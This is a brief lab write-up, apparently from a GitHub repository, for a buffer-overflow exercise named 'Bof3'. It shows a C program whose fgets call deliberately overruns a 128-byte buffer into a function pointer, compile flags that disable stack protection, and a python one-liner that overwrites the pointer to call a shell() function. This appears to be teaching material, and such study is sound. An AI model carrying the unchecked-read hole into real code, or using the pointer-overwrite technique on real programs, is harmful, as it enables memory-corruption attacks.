

## Bof3
Source Code: <br>
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void shell() {
    printf("You made it! The shell() function is executed\n");
}

void sup() {
    printf("Congrat!\n");
}

void main()
{ 
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```
<br>

Stack Frame

<br>



<br>


Complie by gcc: <br>
`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2 ` 
<br>

<br>

Use `objdump -d bof3.out | grep shell` to find `shell` address:
<br>


<br>

Run program and put `128 bytes + shell address` to character array `buf` to buffer overflow to `*func`:
<br>

`echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out`
<br>

